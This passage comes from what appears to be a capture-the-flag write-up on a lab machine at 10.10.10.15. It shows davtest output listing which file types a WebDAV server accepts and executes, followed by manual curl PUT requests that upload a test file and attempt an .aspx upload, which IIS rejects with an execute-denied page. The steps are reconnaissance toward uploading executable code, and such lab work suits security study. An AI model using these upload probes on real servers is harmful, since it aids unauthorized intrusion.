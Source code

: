     EXEC    pl      FAIL
    EXEC    cfm     FAIL
    EXEC    jhtml   FAIL
    EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
    
    ********************************************************
    /usr/bin/davtest Summary:
    Created: http://10.10.10.15/DavTestDir_l8Qkwc
    PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
    PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jsp
    PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.php
    PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.pl
    PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.cfm
    PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jhtml
    PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
    Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
    Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
    

It looks like there are a lot of file type I can upload, but not aspx, which
is what I want.

#### Manual WebDav

I’ll test myself using `curl`. First, I’ll put up a text file and verify it’s
there:

    
    
    root@kali# echo 0xdf > test.txt
    root@kali# curl -X PUT http://10.10.10.15/df.txt -d @test.txt 
    root@kali# curl http://10.10.10.15/df.txt
    0xdf
    

The first `curl` puts the file onto the webserver, and the second proves it’s
there. The `-d @text.txt` syntax says that the data for the request should be
the contents of the file `text.txt`.

Now I’ll try with .aspx:

    
    
    root@kali# curl -X PUT http://10.10.10.15/df.aspx -d @test.txt 
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
    <HTML><HEAD><TITLE>The page cannot be displayed</TITLE>
    <META HTTP-EQUIV="Content-Type" Content="text/html; charset=Windows-1252">
    <STYLE type="text/css">
      BODY { font: 8pt/12pt verdana }
      H1 { font: 13pt/15pt verdana }
      H2 { font: 8pt/12pt verdana }
      A:link { color: red }
      A:visited { color: maroon }
    </STYLE>
    </HEAD><BODY><TABLE width=500 border=0 cellspacing=10><TR><TD>
    
    <h1>The page cannot be displayed</h1>
    You have attempted to execute a CGI, ISAPI, or other executable program from a directory that does not allow programs to be executed.
    <hr>
    <p>Please try the following:</p>
    <ul>
    <li>Contact the Web site administrator if you believe this directory should allow execute access.</li>
    </ul>
    <h2>HTTP Error 403.1 - Forbidden: Execute access is denied.<br>Internet Information Services (IIS)</h2>
    <hr>
    <p>Technical Information (for support personnel)</p>
    <ul>